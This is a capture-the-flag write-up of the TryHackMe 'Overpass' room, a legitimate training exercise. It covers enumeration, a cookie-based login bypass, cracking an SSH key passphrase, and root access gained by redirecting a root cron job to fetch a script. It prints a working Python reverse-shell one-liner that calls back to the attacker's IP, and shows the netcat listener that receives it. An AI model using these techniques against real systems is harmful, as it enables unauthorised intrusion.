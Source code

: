 ```yaml
---
title: "Overpass TryHackMe"
date: "08-05-2021"
author: "Reda BELHAJ"
summary: "What happens when some broke CompSci students make a password manager? room from TryHackme Created by NinjaJc01."
tags: ["Tryhackme", "Ctf", "Writeup"]
image: "/images/Overpass/bg.png"
---
```

Let’s take a look at the [Overpass CTF](https://tryhackme.com/room/overpass) on TryHackMe.

## Enumeration
### Nmap Scan
The first step of my enumeration was a scan with **nmap**. by the command:

```
sudo nmap 10.10.184.21 -sC -sS -Pn
```
The “Nmap Output” displayed `2` services running under port 80 and 22 you guessed it's HTTP and SSH.
![Nmap](/images/Overpass/nmap.jpg)
Connecting to the HTTP port in a browser shows a web page that showcase the password manager tool

### Gobuster Scan
I next decided to run a gobuster scan on the webserver to see if there were any interesting hidden directories, by the command:

```
gobuster dir -u http://10.10.184.21/  -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x html,xml,php
```
![Gobuster](/images/Overpass/gobuster.jpg)

## Exploring 
So I found there was a hidden admin page at `/admin`. I tried some default password like `admin@admin` etc then I decided to take a look at the source code to observe how the login works
![Login](/images/Overpass/loginjs.jpg)

## Exploiting
The function login() in the `login.js` script get 3 the username, the password and the loginStatus then assemble the credentials into a JS Object called `creds` and sends them to `/api/login` for validation then it checks if the credentials are valid, If the credentials are incorrect, it displays "Incorrect Credentials," but if they are correct, It saves a SessionToken cookie and redirects the user to /admin. So I decided to add a cookie with a random value using the web developer bar:
![Cookie](/images/Overpass/cookie.jpg)

## User Flag
When I refresh the page we get a note to James and a SSH key, So I copy it and stores it in a file called `id_rsa`

> Don't forget to change the permission of the file:

```
chmod 600 id_rsa
```

![PassPhrase](/images/Overpass/passphrase.jpg)

When I tried to login I got a passphrase to enter, So let's crack it using **John the Ripper**:

```
python ssh2john.py /home/kali/id_rsa > /home/kali/hash
```

```
john /home/kali/hash
```

![John](/images/Overpass/john.jpg)

After brute-forcing the ssh private key passphrase. Now we can log in via SSH:
![In](/images/Overpass/in.jpg)

And we found the user Flag:

```
thm**********************************
```

## Root Flag
In the same directory we found a todo file:
![ToDo](/images/Overpass/todo.jpg)

So in the last task they mentionned an automated script, and I though of cron and crontab:

The software utility cron also known as **cron** job is a time-based job scheduler in Unix-like computer operating systems. And here's a [link](https://opensource.com/article/17/11/how-use-cron-linux) that teaches you how to use cron in Linux.

Analyzing the crontab file reveals that root runs `buildscript.sh` every minute: 
![Cron](/images/Overpass/crontab.jpg)

So let's try to edit the ip address from `/etc/hosts` and try to create a local reverse shell :

First of all I created a file in my local machine it's called `downloads/src/buildscript.sh` that have:

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.174.180",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Then I started a local web server in the same port of Overpass 80 with Python:

```
sudo python3 -m http.server 80 
```

And I launched a netcat listener:

```
nc -nlvp 4444
```

Finally, we were able to connect to the Box as root and we found the root flag:

```
thm**********************************
```
